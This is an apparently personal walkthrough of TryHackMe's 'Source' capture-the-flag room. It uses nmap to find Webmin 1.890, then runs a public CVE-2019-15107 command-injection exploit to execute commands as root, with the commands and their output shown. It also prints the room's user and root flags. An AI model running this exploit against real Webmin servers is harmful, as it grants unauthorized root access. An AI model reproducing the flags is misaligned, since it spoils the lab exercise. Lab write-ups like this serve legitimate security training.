



# Source
**Date:** March 13th 2022

**Author:** j.info

**Link:** [**Source**](https://tryhackme.com/room/source) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.106.247`

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

<br>

### Gobuster Scan

No gobuster scan is required for this CTF.

<br>

## Website Digging

Visiting the main page:



<br>

## CVE-2019-15107

I do a quick search for **webmin exploit** and it looks like there is an RCE effecting Webmin <=1.920 under **CVE-2019-15107**. Since this server is running Webmin version 1.890 we can try this CVE and see if it works for us. 

I find a python script for this CVE on github [**here**](https://raw.githubusercontent.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/master/webmin-1.890_exploit.py).

Looking at the script it exploits a command injection vulnerability in the **password_change.cgi** file. I test it out by running:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "which nc"`

```html
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
/bin/nc
</p>
```

It's working, we have RCE on the box.

Let's see which user Webmin is running under:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "id"`

```html
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```

Well, it looks like we're running as root! We can likely get a reverse shell back at this point since nc was there, but I don't even think we need to do that since we should just be able to cat the 2 flags using this script.

I run the script with **ls /home** and see that we have 1 user on the system named **dark**. Listing files in **/home/dark** shows us that the **user.txt** flag is there.

I run the script with **cat /home/dark/user.txt** and get back the user flag.

```
THM{SUPPLY_CHAIN_COMPROMISE}
```

I then run the script with **cat /root/root.txt** and get back the root flag.

```
THM{UPDATE_YOUR_INSTALL}
```

<br>

And with that we've completed this CTF! This was definitely a short one.



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **CVE-2019-15107** against a vulnerable **Webmin** server

<br>

Many thanks to:
- [**DarkStar7471**](https://tryhackme.com/p/DarkStar7471) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)